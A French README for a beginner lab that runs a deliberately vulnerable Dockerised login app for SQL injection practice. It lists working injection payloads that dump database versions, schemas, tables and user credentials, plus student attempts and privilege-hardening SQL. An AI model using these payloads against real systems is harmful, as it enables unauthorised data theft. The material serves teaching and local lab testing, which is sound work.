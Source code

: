 # Docker Vulnerable App SQL Injection

*Niveau: Débutant*

![](readme_docs/a22c71cd.png)

---

# Objectif

Tester la vulnérabilité d'une application en injectant du SQL.

---

# Notions à étudier

- Injection SQL

---

# Configuration

Les Fenelon sont stockés dans le fichier **int.sql** ligne **53**

Il est nécessaire d'aller modifier les 3words avant de démarrer le container.

---

# Lancement du container

```bash
docker-compose up --env-file .env -d
```

Accès à l'application vulnérable:

![](readme_docs/cf88d548.png)

http://localhost:8080

---

## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all server databases
   - `username`: `' UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata; #`
   - `password`: `anythingyouwant`

5. Dump all tables in a database (here: capturethefenelon)
   - `username`: `' UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='capturethefenelon' #`
   - `password`: `anythingyouwant`

6. Dump all columns names in a table (here: users)
   - `username`: `' UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #`
   - `password`: `anythingyouwant`

7. Dump all data in a table (here: users)
   - `username`: `' UNION ALL SELECT NULL,concat(0x28,username,0x3a,first_name,0x3a,last_name,0x3a,password,0x29) FROM users #`
   - `password`: `anythingyouwant`

---

# Propositions des étudiants:

1. Le nom de l'utilisateur et le nom de la table **doivent** être connus

> On ne voit pas le code du fenelon!

```sql
fenelon'; SELECT * FROM users; --
```

SELECT table_name FROM information_schema.tables WHERE table_schema = 'capturethefenelon


Doivent le faire avec sqlmap
Fournir le TP sqlmap

https://www.advania.co.uk/insights/blog/mysql-sql-injection-practical-cheat-sheet/?lai_vid=yAN64pOwgSeOd&lai_sr=45-49&lai_sl=m

---

# Mettre à jour la base

Dans le container **03-docker-vulnerable-app-sqlinjection-mysql**, en tant que **root**:

```sql
update users set first_name='chien', last_name='racheter', password='supérieur' where username='fenelon';
select * from users where username = 'fenelon';
```
---

# Mise à jour

Faire un utilisateur dont les droits sont limités à du simple insert ou select, pas de update

```sql
-- Revoke Privileges on update to simple user: fenelon
REVOKE ALL ON capturethefenelon FROM 'fenelon'@'%';

-- Grant only SELECT privileges to user fenelon
GRANT SELECT ON capturethefenelon TO 'fenelon'@'%';
```